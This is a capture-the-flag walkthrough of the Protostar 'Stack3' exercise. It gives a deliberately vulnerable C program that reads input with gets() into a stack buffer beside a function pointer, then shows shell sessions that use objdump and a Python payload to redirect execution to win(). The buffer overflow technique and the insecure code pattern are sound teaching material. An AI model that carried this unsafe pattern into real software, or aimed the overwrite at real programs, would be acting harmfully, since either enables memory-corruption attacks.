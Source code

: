 #### Stack3

###### About

- Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

- Hints
	- Both ``gdb`` and ``objdump`` is your friend you determining where the ``win()`` function lies in memory.
	
- This level is at ``/opt/protostar/bin/stack3``

``stack3.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*68" | ./stack3
calling function pointer, jumping to 0x41414141
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep win
08048424 <win>:
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*64 +'\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$
```
